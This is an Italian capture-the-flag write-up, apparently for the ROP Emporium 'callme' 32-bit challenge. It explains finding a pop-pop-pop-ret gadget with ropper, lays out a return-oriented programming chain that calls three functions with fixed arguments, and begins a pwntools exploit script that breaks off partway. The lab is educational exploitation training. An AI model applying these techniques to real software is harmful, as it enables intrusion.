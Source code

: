 Come invocare **callme_three**?

Il problema e' che per la "convezione di chiamata a funzione x86" il *saved eip* si deve trovare in cima allo stack seguito dagli argomenti della funzione.

Si deve trovare un modo che ci permetta di agirare questo problema.

L'idea e' di cercare dei *gadget* che permettano di "pulire" lo stack prima della prossima invocazione.

Si utilizza **ropper** per la ricerca dei *gadget*:

```bash
$ ropper --file=callme32 --search pop
...
0x080487f9: pop esi; pop edi; pop ebp; ret; 
...
```

Questo sembra fare al caso nostro, l'idea quella di costruire una *rop chain* dalla forma seguente:

- **padding** di dimensione 0x28 + 0x4 bytes.

---
- **callme_one**                                            `<--- saved eip di pwn_me`
- **pop_params_ret**: pop esi; pop edi; pop ebp; ret        `<--- saved eip di callme_one`
- **param1**: 0xdeadbeef, **param2**: 0xcafebabe, **param3**: 0xd00df00d
---
- **callme_two**                                            `<--- saved eip di callme_one`
- **pop_params_ret**: pop esi; pop edi; pop ebp; ret        `<--- saved eip di callme_two`
- **param1**: 0xdeadbeef, **param2**: 0xcafebabe, **param3**: 0xd00df00d
---
- **callme_three**                                          `<--- saved eip di callme_two`
- **pop_params_ret**: pop esi; pop edi; pop ebp; ret        `<--- saved eip di callme_three`
- **param1**: 0xdeadbeef, **param2**: 0xcafebabe, **param3**: 0xd00df00d
---
- **exit**
- **status code**: 0x0

Alla fine della *rop chain* si invoca anche una *exit(0)* per una terminazione senza errori del programma.

## Capture The Flag - x86

Si definisce il file `exploit.py` e si utilizza la libreria *pwntools* per costruire ed usare la nostra *rop chain*:

```python
from pwn import *

exe = './callme32'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

### Crafting the ROP chain ###

param1=0xdeadbeef
param2=0xcafebabe
param3=0xd00df00d

"""
===========================================
ROP chain:
============================================
callme_one
pop esi; pop edi; pop ebp; ret;
params
--------------------------------------------
```
